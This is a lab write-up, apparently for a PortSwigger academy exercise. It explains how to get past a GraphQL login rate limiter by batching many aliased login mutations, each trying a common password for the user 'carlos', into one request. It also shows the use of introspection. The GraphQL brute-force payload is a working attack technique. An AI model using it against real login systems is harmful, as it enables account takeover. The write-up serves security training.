

# Bypassing GraphQL brute force protections
# Objective
The user login mechanism for this lab is powered by a GraphQL API. The API endpoint has a rate limiter that returns an error if it receives too many requests from the same origin in a short space of time.

To solve the lab, brute force the login mechanism to sign in as `carlos`. Use the [list of authentication lab passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) as your password source. 

# Solution
## Analysis
Website uses GraphQL to manage informations about posts and users (including authentication). Website protects itself from brute force attacks by enforcing rate-limiting rules for login.

||
|:--:| 
| *GraphQL example query* |
||
| *Login attempt* |
||
| *Login attempt* |

## Exploitation
### Running introspection query
Website allows for introspection query, which discloses information about database structure as well as hidden fields and functions.

||
|:--:| 
| *Introspection query* |
||
| *Introspection query - Visualization of introspection results* |

### Brute force attack
Brute force rate limiting can be bypassed using aliases. Payload:

```
mutation login{

    bruteforce1: login(input:{username: "carlos", password: "123456"}) {
        token
        success
    }


    bruteforce2: login(input:{username: "carlos", password: "password"}) {
        token
        success
    }


    bruteforce3: login(input:{username: "carlos", password: "12345678"}) {
        token
        success
    }

    ...
}
```

||
|:--:| 
| *Brute force - found credentials* |